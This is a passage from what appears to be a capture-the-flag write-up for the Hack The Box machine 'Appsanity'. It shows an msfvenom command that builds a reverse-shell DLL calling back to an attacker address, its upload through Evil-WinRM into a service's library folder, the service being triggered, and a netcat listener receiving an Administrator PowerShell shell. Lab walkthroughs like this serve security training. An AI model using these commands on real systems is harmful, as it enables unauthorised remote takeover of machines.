 We can generate a reverse shell payload with `msfvenom`, and deliver it to the Libraries folder:
```
┌──(kali㉿kali)-[~/Documents/Appsanity]
└─$ msfvenom -p windows/x64/powershell_reverse_tcp LHOST=10.10.14.134 LPORT=8080 -f dll -o externalupload.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 1879 bytes
Final size of dll file: 9216 bytes
Saved as: externalupload.dll
```
Uploading the file:
```
*Evil-WinRM* PS C:\Program Files\ReportManagement\Libraries> upload externalupload.dll

Info: Uploading /home/kali/Documents/Appsanity/externalupload.dll to C:\Program Files\ReportManagement\Libraries\externalupload.dll                                                                                               

Data: 12288 bytes of 12288 bytes copied

Info: Upload successful!
```
Lastly, attempting to call upload:
```
┌──(kali㉿kali)-[~/Documents/Appsanity]
└─$ nc localhost 100
Reports Management administrative console. Type "help" to view available commands.
upload asdf
Attempting to upload to external source.
```
Meanwhile on my listener:
```
┌──(kali㉿kali)-[~/Documents/Appsanity]
└─$ nc -nlvp 8080
listening on [any] 8080 ...
connect to [10.10.14.194] from (UNKNOWN) [10.10.11.238] 61785
Windows PowerShell running as user Administrator on APPSANITY
Copyright (C) Microsoft Corporation. All rights reserved.

whoami
appsanity\administrator
PS C:\Program Files\ReportManagement>
```
Finally, we have access as Administrator!
